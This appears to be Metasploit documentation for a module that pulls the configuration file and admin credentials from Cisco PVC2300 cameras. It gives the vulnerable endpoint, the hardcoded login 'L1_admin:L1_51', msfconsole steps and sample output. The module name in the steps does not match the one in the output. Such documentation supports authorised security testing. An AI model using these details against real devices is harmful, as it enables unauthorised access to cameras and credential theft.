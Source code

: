 ## Vulnerable Application
This module exploits an information disclosure vulnerability in Cisco PVC2300 cameras in order to download the configuration file
containing the admin credentials for the web interface.

The module first performs a basic check to see if the target is likely Cisco PVC2300. If so, the module attempts to obtain a sessionID
via an HTTP GET request to the vulnerable /oamp/System.xml endpoint using the `login` action and the hardcoded credentials `L1_admin:L1_51`.

If a session ID is obtained, the module uses it in another HTTP GET request to /oamp/System.xml that uses the `downloadConfigurationFile`
action in an attempt to download the configuration file.

The configuration file, if obtained, will be encdoded using base64 with a non-standard alphabet. In order to decode it,
the module first translates the encoded configuration file from the default base64 alphabet to the custom alphabet.
Then the configuration file is decoded using regular base64 and subsequently stored in the `loot` folder.

Finally, the module attempts to extract the admin credentials to the web interface from the decoded configuration file.

No known solution was made available for this vulnerability and no CVE has been published.
It is therefore likely that most (if not all) Cisco PVC2300 cameras are affected.

This module was successfully tested against several Cisco PVC2300 cameras.

## Options
No non-default options are configured.

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/cisco_pvc2300_download_config`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Scenarios
### Cisco PVC2300
```
Module options (auxiliary/gather/cisco_pvc_2300_info_disclosure):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.31.31.233    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf6 auxiliary(gather/cisco_pvc_2300_info_disclosure) > run
[*] Running module against 172.31.31.233

[*] The target may be vulnerable. Obtained sessionID 1122062985
[+] Successfully downloaded the configuration file
[*] Saving the full configuration file to /root/.msf4/loot/20220803124629_default_172.31.31.233_ciscopvc.config_489884.txt
[*] Obtained device name PVC2300 POE Video Camera
[+] Obtained the following admin credentials for the web interface from the configuration file:
[*] admin username: admin
[*] admin password: [obfuscated]
[*] Auxiliary module execution completed
```

